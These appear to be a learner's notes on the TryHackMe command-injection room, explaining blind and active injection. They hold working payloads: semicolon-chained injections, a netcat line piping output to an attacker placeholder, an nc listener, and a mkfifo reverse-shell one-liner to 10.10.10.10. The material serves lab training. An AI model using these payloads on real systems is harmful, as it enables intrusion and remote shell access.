 # Room
https://tryhackme.com/room/injection

# Task 1 - Deploy
Deploy VM

# Task 2 - Intro
Command Injection occurs when server side code like PHP that is housed in a web application makes a system call on the hosting machine

# Task 3 - Blind Command Injection
Blind command injection occurs when the system call doesn't return a response

* How to tell if you have blind command injection
  * Ping
    * If you send 10 pings and the response is delayed about 10 seconds there is a good chance you have blind command injection
  * Redirect output
    * Use output redirection to write a file, then try to browse for that file
  * Bypass using netcat
    * ls -la | nc [attacker_ip] [attacker_port]

Examples
```
; ping -c 10 127.0.0.1
; uname -r > k.txt
```

# Task 4 - Active Command Injection
Active command injection occurs when the system returns a response to your query

* How to tell if you have active command injection
  * Use normal commands as input
    * whoami
    * id
    * ifconfig
    * ipconfig
    * tasklist
    * netstat -ano

# Task 5 - Find the flag
Use active command injection to find the flag

* Setup listener on attack host
  * nc -nvlp 1234
* Inject reverse shell into vulnerable command app
  * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
* browse around for the flag

* Resources
  * https://weibell.github.io/reverse-shell-generator/